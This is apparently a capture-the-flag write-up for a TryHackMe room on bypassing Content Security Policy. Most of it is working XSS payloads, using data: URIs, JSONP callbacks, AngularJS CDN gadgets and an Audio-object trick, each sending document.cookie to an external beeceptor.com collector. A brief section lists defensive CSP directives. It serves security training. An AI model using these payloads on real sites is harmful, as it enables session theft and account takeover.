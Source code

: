 # [Content Security Policy writeup](https://tryhackme.com/room/csp)
### Tools
###### Blue Team
[Evaluator](https://csp-evaluator.withgoogle.com/)
[Hasher](https://report-uri.com/home/hash)
[Generator](https://report-uri.com/home/generate)
###### Red Team
[JSONP Bypass](https://github.com/A1vinSmith/JSONBee/blob/master/jsonp.txt)
[Exfiltrator](https://beeceptor.com/)

### Payload
```
fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)

eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))
```

### Attack
###### task 1
```
<BODY ONLOAD=fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)>
```

###### task 2 (`script-src data:`)
```
<script src="data:application/javascript,fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)"></script>
```
The alternative way is using `data:;base64,iVBORw0KGgo...`

```
echo -n 'fetch(`https://randomcsp.free.beeceptor.com/${document.cookie}`)' | base64

<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vcmFuZG9tY3NwLmZyZWUuYmVlY2VwdG9yLmNvbS8ke2RvY3VtZW50LmNvb2tpZX1gKQ=="></script>
```

###### task 3 (`img-src *; script-src 'unsafe-inline'`)
```
<IMG id="randomcspsmith" SRC="">
<script>document.getElementById('randomcspsmith').src="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 4 (`style-src * 'self'; script-src 'nonce-abcdef'`)
```
<link id="randomcspsmith" rel=stylesheet href="" /><script nonce="abcdef">document.getElementById('randomcspsmith').href="https://randomcsp.free.beeceptor.com/" + document.cookie;</script>
```

###### task 5 (JSONP endpoints, `script-src 'unsafe-eval' *.google.com`)
```
<script src="//accounts.google.com/o/oauth2/revoke?callback=eval(document.location='https://randomcsp.free.beeceptor.com/'.concat(document.cookie))"></script>
```

###### task 6 (Trust CDN? `script-src 'unsafe-eval' cdnjs.cloudflare.com`)
CDN is way too generous. They're not only providing dependence for your website also for the hackers. When setting up the script-src directive and its sources, you should pay special attention to what you're allowing to load. If you're loading a script from an external source such as a CDN, make sure you're specifying the full URL of the script or a nonce/SHA hash of it and not just the hostname where it's hosted at, unless you're 100% sure no scripts that could be used to bypass your policy are hosted there. For example, if you're including jQuery from cdnjs on your website, you should include the full URL of the script `script-src cdnjs.cloudflare.com/ajax/.../jquery.min.js` or the SHA256 hash in your policy. Most CDNs allow you to get the script hash somewhere on their site.

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.3/prototype.min.js" integrity="sha512-C4LuwXQtQOF1iTRy3zwClYLsLgFLlG8nCV5dCxDjPcWsyFelQXzi3efHRjptsOzbHwwnXC3ZU+sWUh1gmxaTBA==" crossorigin="anonymous"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().document.location='https://randomcsp.free.beeceptor.com/' + $on.curry.call().document.cookie}}

</div>
```
https://cdnjs.com/
https://blog.0daylabs.com/2016/09/09/bypassing-csp/

###### task 7
After checking [Evaluator](https://csp-evaluator.withgoogle.com/)
```
default-src 'none';
media-src *;
style-src 'self';
script-src 'self'
```

'self' can be problematic if you host JSONP, Angular or user uploaded files.

`media-src` specifies the URLs from which video, audio and text track resources can be loaded from.
Checking [MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/media-src)

This one is the hardest and the best.
1. The 404 page will show up whatever you put in. means this one match `can be problematic if you host JSONP, Angular or user uploaded files.`
2. Need to understand how `script-src 'self';` works. It means something like `ip:3008/defend-1.js` will be excuted.
3. Then try to close the tag with `'`
4. What to do after fetch, window.open, document.location are blocked by CSP? The anwser is `media-src` `new Audio`
5. Use relative path for the 404 page, also a browser won't block your input for `Phishing`
6. final anwer is 
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----
-----


```
<script src="/'; new Audio('https://randomname.free.beeceptor.com/' + document.cookie); '"></script>
```


### Defend
###### task 1
script-src 'self';

###### task 2
script-src 'nonce-ae3b00';

###### task 3 (Inline JS)
[Hasher](https://report-uri.com/home/hash) to generate the hash for that inline javascript.
script-src 'sha256-8gQ3l0jVGr5ZXaOeym+1jciekP8wsfNgpZImdHthDRo='


### Expand Knowledge
https://content-security-policy.com/#directive

